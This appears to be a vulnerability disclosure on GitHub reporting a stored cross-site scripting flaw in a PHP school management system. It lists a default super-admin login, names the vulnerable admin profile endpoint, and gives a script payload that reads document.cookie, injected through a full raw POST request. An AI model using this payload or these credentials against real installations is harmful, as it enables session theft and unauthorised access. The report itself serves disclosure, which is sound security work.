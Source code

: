 # Advanced School Management System v1.0 by itsourcecode.com has Cross-site Scripting (XSS)

**Vul_Author**: **Congzhao Wen**

Login account: [suarez081119@gmail.com](mailto:suarez081119@gmail.com)/12345 (Super Admin account)

vendor: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability url: ip/school/view/admin_profile.php#

Vulnerability location: /school/index.php

[+] Payload: <script>alert(document.cookie)</script>

Tested on Windows 10, phpStudy

```sql
POST /school/index.php HTTP/1.1
Host: 10.10.10.134:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------168824386524487249392944698838
Content-Length: 1369
Origin: http://10.10.10.134:8000
DNT: 1
Connection: close
Referer: http://10.10.10.134:8000/school/view/admin_profile.php
Cookie: PHPSESSID=vf7g6ffd2s4el0u0gia3elgg14
Upgrade-Insecure-Requests: 1

-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="fileToUpload"; filename=""
Content-Type: application/octet-stream


-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="full_name"

Angel Jude Suarez
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="i_name"

<script>alert(document.cookie)</script>
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="address"

Philippines
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="gender"

Male
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="email"

suarez081119@gmail.com
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="phone"

111-111-1114
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="password"

12345
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="id"

1
-----------------------------168824386524487249392944698838
Content-Disposition: form-data; name="do"

update_admin_profile
-----------------------------168824386524487249392944698838--
https://github.com/wencongzhao/bug_report/blob/main/vendors/itsourcecode.com/advanced-school-management-system/xss.gif
```

![](https://github.com/wencongzhao/bug_report/blob/main/vendors/itsourcecode.com/advanced-school-management-system/xss.gif?raw=true)